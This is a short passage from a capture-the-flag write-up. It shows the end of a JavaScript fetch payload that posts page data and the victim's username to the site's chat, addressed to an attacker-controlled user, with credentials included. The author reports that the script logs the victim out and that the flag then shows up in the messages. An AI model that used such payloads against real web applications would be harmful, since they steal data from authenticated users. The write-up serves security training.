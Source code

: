 ```js
                "headers": 
                {
                    "accept": "*/*",
                    "accept-language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7,zh;q=0.6",
                    "cache-control": "no-cache",
                    "content-type": "application/x-www-form-urlencoded; charset=UTF-8",
                    "pragma": "no-cache",
                    "sec-gpc": "1",
                    "x-requested-with": "XMLHttpRequest"
                },
                "referrer": "/chat",
                "referrerPolicy": "strict-origin-when-cross-origin",
                "body": "content="+encodeURIComponent(t+" | "+document.querySelector("#header > div.menu > div > a > div.menu-text.d-sm-block.d-none.w-170px").textContent)+"&destination_username=a",
                "method": "POST",
                "mode": "cors",
                "credentials": "include" 
            })
        }))
    }
)
```

When we send the message, the script disconnects us, when we reconnect, we can see the flag in the messages.

![screen3](images/screen3.png)


# The Genie's pwn adventures revenge (unintended)
